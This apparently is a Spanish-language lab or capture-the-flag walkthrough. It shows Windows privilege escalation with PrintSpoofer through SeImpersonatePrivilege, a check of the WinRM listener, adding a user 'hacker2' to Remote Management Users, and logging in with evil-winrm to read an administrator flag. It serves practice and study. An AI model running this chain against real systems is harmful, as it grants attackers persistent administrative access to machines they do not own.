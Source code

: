 Listar miembros del grupo "Remote Management Users":
```

./PrintSpoofer.exe -i -c "cmd /c net localgroup Administradores"

```


## Verificamos si esta abierto el Puerto 5985 
```bash
PS C:\temp> ./PrintSpoofer.exe -i -c "cmd /c  winrm enumerate winrm/config/listener"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Listener
    Address = *
    Transport = HTTP
    Port = 5985
    Hostname
    Enabled = true
    URLPrefix = wsman
    CertificateThumbprint
    ListeningOn = 127.0.0.1, 192.168.56.106, ::1, fe80::6ce9:31d5:e69f:386d%4

```
## Agregamos al usuario nuevo hacker2 al grupo de Remote Management Users

```bash 
./PrintSpoofer.exe -i -c "cmd /c net localgroup "Remote Management Users" hacker2 /add"
```

```bash 
./PrintSpoofer.exe -i -c "cmd /c net localgroup "Remote Management Users" "

./PrintSpoofer.exe -i -c "cmd /c net localgroup 'Remote Management Users'"

```

# CONECTARSE REMOTAMENTE DESDE TU MÁQUINA (Kali/Linux)

```bash
evil-winrm -i 192.168.56.106 -u hacker2 -p 'Password123'
```

## Encontrar las Flags del usuario Administrador y Hacker

```
Evil-WinRM* PS C:\Users\Administrador\Desktop> ls

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/23/2025   5:29 PM           2350 Microsoft Edge.lnk
-a----         8/24/2025  12:03 AM             56 Root.txt


*Evil-WinRM* PS C:\Users\Administrador\Desktop> type Root.txt
QSBxdWUgZXJhIG1hcyBzZW5jaWxsbyBkZSBsbyBxdWUgcGFyZWNpYT8=


```
## Flag de Usuario Administrador
